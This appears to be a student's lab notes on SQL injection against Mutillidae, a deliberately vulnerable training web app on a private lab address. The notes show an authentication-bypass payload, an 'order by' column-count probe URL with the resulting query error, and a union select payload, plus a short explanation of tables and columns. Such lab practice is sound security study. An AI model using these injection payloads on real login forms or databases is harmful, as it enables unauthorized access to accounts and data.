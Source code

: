 ```sql
' or 1=1 #
```

In this section i get `order by` to work correctly. It throws an error at 6.

Payload:
```sh
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=admin%27%20order%20by%206%23&password=adminpass&user-info-php-submit-button=View+Account+Details
```
- %20 - URL encoded space character

Error results:
```sql
SELECT * FROM accounts WHERE username='admin' order by 6#' AND password='adminpass'
```

**Terminology:**
A table is a collection of rows having one or more columns. A row is a value of a row type. Every row of the same table has the same row type. **The value of the i-th field of every row in a table is the value of the i-th column of that row in the table**. The row is the smallest unit of data that can be inserted into a table and deleted from a table.

I'll add a screenshot here of the table from the Metasploitable server, when i get on it, because it might be easier to see what is happening and what is meant by the different terminology. 

![](img/sql-tables-and-columns.png)

Using union select instead of order
```sql
' union select 1,2,3,4,5 %23
```
